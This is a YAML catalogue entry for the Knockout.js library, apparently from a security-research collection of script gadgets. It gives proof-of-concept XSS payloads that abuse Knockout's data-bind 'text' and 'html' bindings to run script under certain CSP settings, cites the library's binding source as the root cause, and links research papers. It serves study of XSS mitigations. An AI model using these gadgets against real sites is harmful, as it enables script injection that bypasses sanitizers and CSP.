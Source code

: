 ```yaml
---
description: Knockout is a JavaScript [MVVM](https://en.wikipedia.org/wiki/Model%E2%80%93view%E2%80%93viewmodel) (a modern variant of MVC) library that makes it easier to create rich, desktop-like user interfaces with JavaScript and HTML. It uses observers to make your UI automatically stay in sync with an underlying data model, along with a powerful and extensible set of declarative bindings to enable productive development.
github: knockout/knockout
gadgets:
  Latest:
    authors:
      - twitter:slekies
      - twitter:kkotowicz
      - twitter:sirdarckcat
    tags:
      - chrome-browser
      - firefox-browser
      - safari-browser
      - any-tag
      - data-attr
      - unsafe-eval-csp
      - before-func-call
    pocs:
      - description: A `ko.applyBindings` call is required. This example requires the `unsafe-eval` CSP directive.
        code: |
          <!-- user input -->
          <x data-bind="text: alert(document.domain)"></x>

          <script nonce="secret" src="https://cdnjs.cloudflare.com/ajax/libs/knockout/3.5.1/knockout-latest.js"></script>
          <script nonce="secret">
              ko.applyBindings();
          </script>
      - description: It is also possible to insert HTML using the [html binding](https://knockoutjs.com/documentation/html-binding.html) (this one won't work without an `unsafe-inline` CSP directive).<br><br>*The full list of default available binding can be find [here](https://github.com/knockout/knockout/tree/master/src/binding/defaultBindings).*
        code: |
          <!-- user input -->
          <div data-bind="html:'<iframe srcdoc=&quot;<script>alert(1)</script>&quot;></iframe>'"></div>

          <script nonce="secret" src="https://cdnjs.cloudflare.com/ajax/libs/knockout/3.5.1/knockout-latest.js"></script>
          <script nonce="secret">
              ko.applyBindings();
          </script>
    more-info: |
      **Root cause:**
      
      Source: <a target="_blank" href="https://github.com/knockout/knockout/blob/45e86bf0347cf742ca359bab051ea82fdfae7a5d/src/binding/bindingProvider.js#L2">https://github.com/knockout/knockout/blob/45e86bf0347cf742ca359bab051ea82fdfae7a5d/src/binding/bindingProvider.js#L2</a>

      ```javascript
      var defaultBindingAttributeName = "data-bind";
      ```

      Source: <a target="_blank" href="https://github.com/knockout/knockout/blob/master/src/binding/defaultBindings/text.js">https://github.com/knockout/knockout/blob/master/src/binding/defaultBindings/text.js</a>

      ```javascript
      ko.bindingHandlers['text'] = {
          'init': function() {
              // Prevent binding on the dynamically-injected text node (as developers are unlikely to expect that, and it has security implications).
              // It should also make things faster, as we no longer have to consider whether the text node might be bindable.
              return { 'controlsDescendantBindings': true };
          },
          'update': function (element, valueAccessor) {
              ko.utils.setTextContent(element, valueAccessor());
          }
      };
      ko.virtualElements.allowedBindings['text'] = true;
      ```

      Source: <a target="_blank" href="https://github.com/knockout/knockout/blob/master/src/binding/defaultBindings/html.js">https://github.com/knockout/knockout/blob/master/src/binding/defaultBindings/html.js</a>

      ```javascript
      ko.bindingHandlers['html'] = {
          'init': function() {
              // Prevent binding on the dynamically-injected HTML (as developers are unlikely to expect that, and it has security implications)
              return { 'controlsDescendantBindings': true };
          },
          'update': function (element, valueAccessor) {
              // setHtml will unwrap the value if needed
              ko.utils.setHtml(element, valueAccessor());
          }
      };
      ```
    links:
      - http://sebastian-lekies.de/slides/appsec2017.pdf
      - https://acmccs.github.io/papers/p1709-lekiesA.pdf
      - https://www.blackhat.com/docs/us-17/thursday/us-17-Lekies-Dont-Trust-The-DOM-Bypassing-XSS-Mitigations-Via-Script-Gadgets.pdf
      - https://github.com/google/security-research-pocs/blob/master/script-gadgets/repo/csp/sd/knockout.php
      - https://github.com/google/security-research-pocs/blob/master/script-gadgets/repo/csp/sd/knockout_exploit.php
---
```

